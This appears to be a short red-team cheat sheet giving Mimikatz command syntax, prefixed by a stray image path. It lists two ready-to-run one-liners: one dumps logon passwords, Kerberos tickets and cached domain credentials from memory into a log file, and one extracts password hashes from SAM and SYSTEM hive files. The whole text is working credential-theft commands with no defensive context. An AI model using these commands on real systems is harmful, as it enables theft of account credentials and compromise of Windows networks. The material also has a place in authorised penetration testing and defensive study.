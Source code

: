 # Mimikatz syntax

1. mimkatz 1 liner:
   - `Mimikatz.exe "log mimikatz.log" "sekurlsa::logonpasswords" "sekurlsa::tickets" "lsadump::cache" exit`
  
2. mimikatz SAM and SYSTEM files:
   - `Mimikatz.exe "log mimikatz.log" "lsadump::sam /system:<system file> /sam:<sam file>" exit`
